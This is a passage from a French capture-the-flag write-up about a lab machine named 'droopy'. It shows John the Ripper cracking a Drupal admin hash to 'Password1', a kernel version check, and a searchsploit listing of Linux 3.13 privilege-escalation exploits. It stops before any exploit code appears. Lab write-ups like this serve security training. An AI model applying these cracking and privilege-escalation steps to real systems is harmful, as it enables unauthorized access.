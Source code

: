 ```console
root@blinils:~# john passmysql
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (Drupal7, $S$ [SHA512 128/128 AVX 2x])
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (drupaladmin)
1g 0:00:03:41 10.21% 2/3 (ETA: 16:01:30) 0.004507g/s 77.70p/s 94.43c/s 94.43C/s Wolverine1..Aaaa1
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
```

## Élévation de privilèges avec _'overlayfs' Local Privilege Escalation_

Mis à part les fichiers trouvés ci-dessus, il n'y a rien de plus à se mettre sous la dent. Quid du système d'exploitation installé ?

```console
gsuser@droopy:~$ uname -a
uname -a
Linux droopy 3.13.0-43-generic #72-Ubuntu SMP Mon Dec 8 19:35:06 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
```

Depuis 2014, des codes d'exploitation auront sûrement été publiés sur Internet pour cette version du noyau Linux.

```console
root@blinils:~# searchsploit linux 3.13
 ------------------------------------------------------------------------------------------------------------------ 
| Exploit Title                                                                                                    |
 ------------------------------------------------------------------------------------------------------------------ 
| Linux Kernel 3.13 - SGID Privilege Escalation                                                                    |
| Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation             |
| Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation (Access...) |
| Linux Kernel 3.13.1 - 'Recvmmsg' Local Privilege Escalation (Metasploit)                                         |
| Linux Kernel 3.13/3.14 (Ubuntu) - 'splice()' System Call Local Denial of Service                                 |
| Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.04/13.10 x64) - 'CONFIG_X86_X32=y' Local Privilege Escalation (3)           |
| Linux Kernel 3.4 < 3.13.2 (Ubuntu 13.10) - 'CONFIG_X86_X32' Arbitrary Write (2)                                  |
| Linux Kernel 3.4 < 3.13.2 - recvmmsg x32 compat (PoC)                                                            |
| id Software Solaris Quake II 3.13/3.14 / QuakeWorld 2.0/2.1 / Quake 1.9/3.13/3.14 - Command Execution            |
| pam-krb5 < 3.13 - Local Privilege Escalation                                                                     |
 ------------------------------------------------------------------------------------------------------------------ 
```
